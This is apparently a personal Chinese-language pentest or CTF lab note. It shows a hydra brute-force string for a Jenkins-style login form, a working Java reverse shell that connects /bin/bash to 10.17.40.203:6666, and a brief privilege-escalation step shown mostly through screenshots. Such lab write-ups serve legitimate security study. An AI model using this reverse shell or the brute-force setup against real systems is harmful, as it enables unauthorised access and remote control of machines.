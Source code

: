[[tips和一些工具/linux工具#^71d08f\|linux工具#^71d08f]]

#注意 hydra的高级用法

在爆破的时候总是会忘记如何进行配置'/j_acegi_security_check:j_username=^user^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' 像这样复杂的参数

在遇到这种情况 f12打开开发工具

![image.png](https://s2.loli.net/2025/05/01/7qQkECvaY4HFdcI.png)

注意我们的post包 左边的圈就是我们需要设置的爆破的路径 类似/login.php这样的 右边的是详细的值 这里需要把我们输入的值改成^PASS^和^user^ 最后加上报错的信息

还有一个要注意的 就是假如说用户是固定的 eg 用户是admin name 后面的^user^也要改成admin

前面就是因为这个问题一直没爆破出来

![image.png](https://s2.loli.net/2025/05/01/rDdC4EKfXaZqx9i.png)

## 反弹shell

```
java 反弹shell
String host="10.17.40.203";
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
[[tips和一些工具/平时用的一些命令 更新中#^5af79a\|平时用的一些命令 更新中#^5af79a]]

进去之后寻找脚本运行

![image.png](https://s2.loli.net/2025/05/01/qyobInrugsa4GpL.png)


反弹shell成功


## 提权
先信息收集一下
![image.png](https://s2.loli.net/2025/05/01/3TWfYaEJQe19ud5.png)

![image.png](https://s2.loli.net/2025/05/01/sGSV5pHOABP3yiR.png)


![image.png](https://s2.loli.net/2025/05/01/x9ObB2UAfcJyrT3.png)


![image.png](https://s2.loli.net/2025/05/01/mJoSjcn5Lrhz6E3.png)

![image.png](https://s2.loli.net/2025/05/01/fFHhN9iQZdcjrPq.png)
